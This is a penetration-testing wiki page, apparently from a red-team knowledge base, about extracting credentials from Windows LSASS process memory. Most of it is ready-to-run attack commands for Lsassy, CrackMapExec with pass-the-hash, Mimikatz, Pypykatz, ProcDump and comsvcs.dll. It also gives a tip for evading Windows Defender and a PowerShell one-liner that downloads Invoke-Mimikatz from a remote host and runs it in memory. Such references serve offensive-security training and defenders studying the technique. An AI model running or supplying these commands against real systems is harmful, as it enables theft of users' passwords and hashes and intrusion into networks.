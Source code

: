 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.001
---
```


# LSASS.exe

## Theory

The Local Security Authority Subsystem Service \(LSASS\) is a Windows service responsible for enforcing the security policy on the system. It verifies users logging in, handles password changes and creates access tokens. Those operations lead to the storage of credential material in the process memory of LSASS. **With administrative rights only**, these material can be harvested \(either locally or remotely\).

## Practice

{% tabs %}
{% tab title="Lsassy" %}
[Lsassy](https://github.com/Hackndo/lsassy) \(Python\) can be used to remotely extract credentials, from LSASS, on multiple hosts. As of today \(22/07/2020\), it is the Rolls-Royce of remote lsass credential harvesting.

* several dumping methods: comsvcs.dll, [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), [Dumpert](https://github.com/outflanknl/Dumpert)
* several authentication methods: like [pass-the-hash](../../abusing-ntlm/pass-the-hash.md) \(NTLM\), or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md) \(Kerberos\)
* it can be used either as a standalone script, as a [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) module or as a Python library
* it can interact with a Neo4j database to set [BloodHound](https://github.com/BloodHoundAD/BloodHound) targets as "owned"

```bash
# With pass-the-hash (NTLM)
lsassy -u $USER -H $NThash $TARGETS

# With plaintext credentials
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS

# With pass-the-ticket (Kerberos)
lsassy -k $TARGETS

# CrackMapExec Module examples
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
crackmapexec smb $TARGETS -k -M lsassy
crackmapexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from lsass's process memory, or remotely to analyze a memory dump \(dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example\).

```bash
# (Locally) extract credentials from LSASS process memory
sekurlsa::logonpasswords

# (Remotely) analyze a memory dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
{% endtab %}

{% tab title="Pypykatz" %}
[Pypykatz](https://github.com/skelsec/pypykatz) \(Python\) can be used remotely \(i.e. offline\) to analyze a memory dump \(dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example\).

```bash
pypykatz lsa minidump lsass.dmp
```
{% endtab %}

{% tab title="ProcDump" %}
The legitimate tool [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) \(from [sysinternals](https://docs.microsoft.com/en-us/sysinternals/)\) \([download](https://live.sysinternals.com/)\) can be used to dump lsass's process memory.

```bash
procdump --accepteula -ma lsass lsass.dmp
```

{% hint style="info" %}
Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier \(pid\) "bypasses" that.
{% endhint %}

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
procdump -accepteula -ma $procdump_pid lsass.dmp
```

Once the memory dump is finished, it can be analyzed with [mimikatz](https://github.com/gentilkiwi/mimikatz) \(Windows\) or [pypykatz](https://github.com/skelsec/pypykatz) \(Python, cross-platform\).
{% endtab %}

{% tab title="comsvcs.dll" %}
The native comsvcs.dll DLL found in `C:\Windows\system32` can be used with rundll32 to dump LSASS's process memory.

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```
{% endtab %}

{% tab title="PowerSploit" %}
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s exfiltration script [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) \(PowerShell\) can be used to extract credential material from LSASS's process memory.

```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endtab %}
{% endtabs %}

Recovered credential material could be either plaintext passwords or NT hash that can be used with [pass the hash](../../abusing-ntlm/pass-the-hash.md) \(depending on the context\).

## References

{% embed url="https://en.hackndo.com/remote-lsass-dump-passwords/" caption="" %}

